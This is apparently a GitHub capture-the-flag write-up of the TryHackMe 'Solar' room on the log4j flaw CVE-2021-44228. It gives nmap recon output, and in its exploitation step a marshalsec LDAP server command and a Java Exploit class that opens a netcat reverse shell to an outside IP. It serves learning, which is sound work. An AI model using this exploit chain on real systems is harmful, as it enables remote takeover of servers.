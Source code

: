 <h1 align="center">Solar, exploiting log4j</h1>
<p align="center"><img width="80px" src="https://github.com/user-attachments/assets/8f194657-c8b8-4674-8c13-0c79195e29a5"><br>
July 3, 2025<br> Hey there, fellow lifelong learner! I´m <a href="https://www.linkedin.com/in/rosanafssantos/">Rosana</a>,<br>
and I’m excited to join you on this adventure, part of my <code>423</code>-day-streak in<a href="https://tryhackme.com">TryHackMe</a>.<br>
<em>Explore CVE-2021-44228, a vulnerability in log4j affecting almost all software under the sun</em>.<br>
Access it <a href="https://tryhackme.com/room/solar"</a>here.<br>
<img width="1200px" src=""></p>


<br>

<h2>Task 1 . CVE-2021-44228 Introduction</h2>

<p></p>

<h2>Task 2 . Reconnaissance</h2>


<h3>Nmap</h3>
<p>
  
- <code>22/ssh</code><br>
- <code>111/rpcbind</code></p>

```bash
nmap -v TargetIP
...
PORT    STATE SERVICE
22/tcp  open  ssh
111/tcp open  rpcbind
```

<p>
  
- <code>22/ssh</code><br>
- <code>111/rpcbind</code><br>
- <code>8983/unknow</code></p>

```bash
nmap -v -p- TargetIP
...
PORT    STATE SERVICE
22/tcp   open  ssh
111/tcp  open  rpcbind
8983/tcp open  unknown
```

<br>


```bash
nmap -sV -p 8983 TargetIP
...
PORT     STATE SERVICE VERSION
8983/tcp open  http    Apache Solr
```

![image](https://github.com/user-attachments/assets/bce1d788-ebd3-43f5-bd2c-925b23de6e86)

<br>

<h2>Task 3 . Discovery</h2>

![image](https://github.com/user-attachments/assets/ca965573-f46a-44fd-b452-77830fe5c44f)

<br>


<h2>Task 4 . Proof od Concept</h2>

![image](https://github.com/user-attachments/assets/b73acbcf-af79-4561-a3ea-1efbf33b35e4)


![image](https://github.com/user-attachments/assets/e83fe8b1-4e67-4199-9534-a7f3ef817476)

<br>


<h2>Task 5 . Exploitation</h2>

```bash
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.10.251.109:8000/#Exploit"
```

```bash
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash 10.10.233.109 9999");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

<h2>Task 6 . Persistence</h2>


![image](https://github.com/user-attachments/assets/4f45613b-1260-4a3f-837a-961538580ff1)

![image](https://github.com/user-attachments/assets/f283c532-d246-4f08-abe5-9edf87be0b34)

![image](https://github.com/user-attachments/assets/3d36aff2-762f-4587-bef4-767bdf30a3cd)


![image](https://github.com/user-attachments/assets/36906b53-0893-4a11-b7b4-7f0ef3003b30)



